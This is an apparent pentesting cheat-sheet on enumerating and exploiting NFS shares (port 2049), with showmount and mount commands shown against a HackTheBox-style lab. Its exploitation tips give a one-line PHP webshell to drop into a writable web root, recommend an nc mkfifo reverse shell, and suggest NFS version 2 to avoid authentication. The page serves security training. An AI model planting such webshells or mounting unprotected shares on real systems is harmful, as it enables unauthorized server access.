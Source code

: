 ```yaml
---
description: >-
  Network File System (NFS) is a file system protocol that allows a user on a
  client system to access files stored on a file server.
---
```


# 📂 2049/NFS

## Enumeration

* Open NFS’s work by utilizing read/write access permissions.
  * Read Access: Possible confidential file is available
  * Write Access: Possible file upload to execute through web service

### Useful Nmap Scripts <a href="#useful-nmap-scripts" id="useful-nmap-scripts"></a>

```
nfs-ls #List NFS exports and check permissions
nfs-showmount #Like showmount -e
nfs-statfs #Disk statistics and info from NFS share
```

## Mounting

To know **which folder** has the server **available** to mount you an ask it using:

```
showmount -e <IP>
```

Then mount it using:

```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
```

You should specify to **use version 2** because it doesn't have **any** **authentication** or **authorization**.

**Example:**

**Enumerate share:**

```
showmount -e 10.10.10.10
Export list for 10.10.10.10:
/site_backups (everyone)
```

Create directory for mount point:

```
sudo mkdir /mnt/HTB_Site_Backups
```

Mount the share to newly created mount point:

```
sudo mount -t nfs 10.10.10.10:/site_backups /mnt/HTB_Site_Backups/ -o nolock
```

## Exploitation Tips

* When you mount a directory, be sure to check the directory for it's permissions
* The mounted directory does not check the user, it simply checks it's permissions
* This means that if you create a user with the same permissions set, you will be able to read, write, or execute those files found within those directories
* Perhaps there's a web server running on that server and a mounted directory is /var/www/html, well if you can write to it, place a PHP webshell in there, and gain access to the server!

#### PHP Webshell

* An extremely simple PHP Webshell
* To use, simple name the file shell.php and place it in /var/www/html

```
<?php system($_GET['cmd']);?>
```

* Navigate to hackthebox.htb/shell.php?cmd=\<reverse shell here>
* I always found the most consistent way to catch a reverse shell is with the nc mkfifo reverse shell

## Tools:

Mount: For mounting share availability

Showmount: For finding shares available

## References

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting" %}

